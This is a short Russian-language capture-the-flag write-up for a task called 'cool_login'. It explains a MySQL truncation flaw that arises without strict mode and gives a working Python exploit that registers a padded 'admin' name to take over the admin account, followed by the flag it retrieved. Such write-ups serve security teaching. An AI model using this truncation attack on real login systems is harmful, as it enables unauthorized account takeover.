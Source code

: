 # cool_login

Уязвимость была в том, что из-за отсутствия дефолтного мода в MySQL (`STRICT_TRANS_TABLES`), при вводе строки, которая превышала заданный размер ячейки, данные обрезались.

Пример эксплойта для решения таска:

[exp.py](exp.py)
```python
import requests
import sys

def cool(username):
    return username + ' so cool'

link = sys.argv[1]

username = "                                     admin"

password = "lol"

assert len(cool(username)) == 50

response = requests.post(f"{link}/register", data={"username": cool(username), "password": password})
print(response.text)

response = requests.post(f"{link}/login", data={"username": username, "password": password})
print(response.text)
```
Запускаем эксплойт:
```bash
$ python3 exp.py link | grep surctf
    <h2>surctf_ohhhhh_n0_u_CuT_th3_l1N3</h2>
```

`flag: surctf_ohhhhh_n0_u_CuT_th3_l1N3`
